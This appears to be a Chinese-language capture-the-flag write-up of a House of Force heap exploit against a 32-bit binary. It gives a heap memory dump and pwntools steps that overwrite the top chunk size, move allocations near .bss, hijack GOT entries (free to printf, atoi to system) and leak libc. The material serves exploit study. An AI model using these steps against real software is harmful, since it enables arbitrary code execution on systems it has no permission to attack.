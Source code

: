 ```
chunk      0x804b000        0x28(0x8 字节header + 0x20内容)   (inuse)
chunk      0x804b028        0x20fd8(top chunk size) -------------------
sbrk_end   0x806c000                                                  |
                                                                      |
0x804b000:	0x00000000	0x00000029	0x00000000	0x00000000            |
0x804b010:	0x00000000	0x00000000	0x00000000	0x00000000            |
0x804b020:	0x00000000	0x00000000	0x00000000	0x00020fd9  <----------          
0x804b030:	0x00000000	0x00000000	0x00000000	0x00000000

sbrk_base  0x804b000
chunk      0x804b000        0x28            (inuse)
chunk      0x804b028        0x41414140      (already changed)
```
&nbsp;&nbsp;&nbsp;&nbsp;结论: `top chunk size`在`0x804b020`,我们完成可以向s1中输入过量的数据改变`top chunk size`.

### 过程

**整体思路**
> &nbsp;&nbsp;&nbsp;&nbsp;修改`top chunk size`为`0xffffffff`, malloc一个赋值, 使`top chunk`分配到`.bss`段附近.
&nbsp;&nbsp;&nbsp;&nbsp;`0x804b120`中存放的是`content`指针, 通过修改这些指针, 达到任意读写目的.

**步骤一: 泄露heap地址, 修改top chunk size**
```python
name = "Bill"*0x10
org = "A" * 0x40
host = p32(0xffffffff) #top chunk size足够大
leak = welcome(name, org, host)
```
**步骤二: 修改top chunk的值**
```python
bss = 0x804b0a0
length = bss - 8 - (leak + 0x48*3 - 8) - 12
newcontent=''
new(length, newcontent)
```
**步骤三**
**思路:**　修改原`0x804b120`处存储的指针, 将`free@got`修改为`print@plt`, 泄露`atoi`函数地址
```python
printf = elf.plt['printf']
free = elf.got['free']
atoi = elf.got['atoi']

payload = "A"*128 + p32(atoi) + p32(free) + p32(atoi)
length = len(payload)
new(length, payload)
edit(1, p32(printf))
delete(0)
```
**步骤四: 修改atoi为system函数地址**
```python
real_atoi = u32(p.recv()[0:4])
log.info("readatoi: %s" % hex(real_atoi))
system = real_atoi - (libc.symbols['atoi'] - libc.symbols['system'])
edit(2, p32(system))
```
